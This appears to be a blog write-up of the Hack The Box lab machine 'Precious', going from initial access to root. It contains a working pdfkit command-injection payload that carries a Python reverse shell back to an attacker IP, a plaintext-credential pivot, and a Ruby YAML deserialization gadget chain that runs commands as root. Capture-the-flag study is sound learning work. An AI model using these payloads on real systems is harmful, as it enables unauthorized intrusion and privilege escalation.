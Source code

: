```yaml
---
title: "Precious - HackTheBox"
description: "https://www.hackthebox.com/machines/precious"
summary: "Hack The Box Machine Precious"
date: 2023-09-28
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["Linux", "HackTheBox", "Easy", "CTF"]
canonicalURL: ""
showToc: true
TocOpen: false
TocSide: 'right'  # or 'left'
# weight: 1
# aliases: ["/first"]
hidemeta: false
comments: false
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
cover:
    image: "images/cover.webp" # image path/url
    alt: "Precious Machine Logo" # alt text
    caption: "" # display caption under cover
    relative: true # when using page bundles set this to true
    hidden: false # only hide on current single page
    # hiddenInList: false
    # hiddenInSingle: false
# editPost:
#     URL: "https://github.com/"
#     Text: "Suggest Changes" # edit text
#     appendFilePath: true # to append file path to Edit link
---
```


------------------------

### About Precious
- Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. 
- It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. 
- After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.


### Scanning

Port scaning with nmap
- port 80 is open : redirect to http://precious.htb/

add this to `/etc/hosts`.

### Foothold

On this page we have **Convert Web Page to PDF** functionality.

<img width="474" alt="image" src="https://user-images.githubusercontent.com/79740895/231573264-a9246425-3e38-4e9d-8b5a-431684ceff6f.png">

after giving url pdf file is downloaded.

using exiftool on pdf we know that it is _Generated by pdfkit v0.8.6_.

This version is vulnerable to RCE.

Payload: 
```url
http://%20`{command}`
```

we can use this payload to get reverse shell:

```shell
http://%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.40",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`
```

references: https://www.revshells.com/

we get shell as user ruby

<img width="216" alt="image" src="https://user-images.githubusercontent.com/79740895/231575127-06729034-9ced-4058-bc70-6b335f7044f9.png">

### Escalating Privileges

we can see two user in /home directory.

<img width="83" alt="image" src="https://user-images.githubusercontent.com/79740895/231575282-f6f90c02-7aa8-4d87-ba56-d603b07b02eb.png">

user flag is in directory of user henry but it is not accessible.

inside the directory of user ruby there is config file in .bundle in this file we can see password of user henry.

<img width="252" alt="image" src="https://user-images.githubusercontent.com/79740895/231575704-cd2668c0-8a7e-4542-91bb-669cb7bdaed1.png">

we can use this for ssh to henry.

user can run /opt/update_dependencies.rb as root with sudo.

<img width="344" alt="image" src="https://user-images.githubusercontent.com/79740895/231576872-90fbe14a-5858-4480-83a5-901366213b58.png">

this file is not writable. looking at code we see it use YAML.load, which is vulnerable to deserialization attack.

<img width="213" alt="image" src="https://user-images.githubusercontent.com/79740895/231577426-1faf86eb-003b-4c17-be99-0ca2b7c79a60.png">

we can write in dependencies.yml.

payload:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat /root/root.txt
         method_id: :resolve
```

reference: https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml

now we can run this with sudo and get the root flag.

`sudo /usr/bin/ruby /opt/update_dependencies.rb`


This will give the root flag.

Happy Hacking
